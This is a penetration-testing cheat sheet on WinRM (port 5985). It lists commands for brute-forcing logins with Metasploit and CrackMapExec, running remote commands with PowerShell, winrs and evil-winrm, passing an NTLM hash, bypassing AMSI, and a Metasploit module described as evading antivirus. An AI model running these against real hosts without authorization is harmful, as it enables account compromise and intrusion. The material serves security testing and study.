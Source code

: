 ```yaml
---
description: >-
  Windows Remote Management (WinRM) is the Microsoft implementation of
  WS-Management Protocol, a standard Simple Object Access Protocol (SOAP)-based.
  Usaully run on port 5985.
---
```


# 5985 - WinRM

## Info

WinRM uses the PSRemoting \(PowerShell remote\) to login to a host and execute commands.

You can enable WinRM by running `Enable-PSRemoting`

By default WinRM uses port 5985 for sending traffic over HTTP \(But it's still encrypted\), and port 5986 for SSL.

If you can make a HTTP request \(GET\) to `/wsman` and you get 200 back, WinRM  is enabled \(on port 5985\).

### Add User to winrm group

```text
net localgroup "Remote Management Users" /add bowen
```

## Bruteforce login

### Metasploit

The winrm\_login module is a standard Metasploit login scanner to bruteforce passwords.

`use auxiliary/scanner/winrm/winrm_login`

### Crackmapexec

`cme winrm 192.168.1.0/24 -u userfile -p passwordfile`

## Login from windows

### Powershell

From a powershell command prompt:

```text
$pass = ConvertTo-SecureString 'supersecurepassword' -AsPlainText -Force 
$cred = New-Object System.Management.Automation.PSCredential ('ECORP.local\morph3', $pass) 
Invoke-Command -ComputerName DC -Credential $cred -ScriptBlock { whoami }
```

###  Winrs

Winrs.exe is a built-in command line tool that allows for the execution of remote commands over WinRm with a properly credentialed user.

```text
winrs -r:corp-dc "whoami /all"
```

###  **Winrm.cmd**

Command–line tool for system management is implemented in a Visual Basic Scripting Edition file \(Winrm.vbs\) written using the WinRM scripting API.

```text
winrm invoke Create wmicimv2/Win32_Process @{CommandLine="notepad"} -r:corp-dc
```

## Login from Linux

### Ruby Script

A quick and dirty script - use  [Alamot’s Ruby script](https://raw.githubusercontent.com/Alamot/code-snippets/master/winrm/winrm_shell.rb)  

Remember to change the username and password 

### Evil-WinRM

A comprehensive winrm shell

[https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

Install:

```text
sudo apt install ruby-dev build-essential
sudo gem install evil-winrm
```

You can also execute built in 'Bypass-AMSI', 'DLL-loader', 'Dount Loader' and 'Invoke Binary' straight from the shell by just typing `menu` in the shell

We can also load powershell scripts using the `-s` option and providing a folder with scripts, and then just calling the script from the shell \(example typing `powerup.ps` \)and then when we go to the menu it will show the functions from that script.

### CrackMapexec

Here’s an example of using CrackMapExec winrm method as local Administrator with a clear text password:

`crackmapexec winrm -d . -u Administrator -p 'pass123' -x "whoami" 192.168.204.183` 

Here’s example using a NTLM hash:

`crackmapexec winrm -d . -u Administrator -H aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 -x "whoami" 192.168.204.183`

### Metasploit

WinRM Script Exec exploit module can obtain a shell without triggering an anti-virus solution, in certain cases. This module has two different payload delivery methods. Its primary delivery method is through the use of PowerShell 2.0. The module checks to see if PowerShell 2.0 is available on the system. It then tries to enable unrestricted script execution, an important step because PowerShell does not execute unsigned script files by default. If either of these checks fail, it will default to the VBS CmdStager payload method, otherwise it will use our Powershell 2.0 method.

`use exploit/windows/winrm/winrm_script_exec`

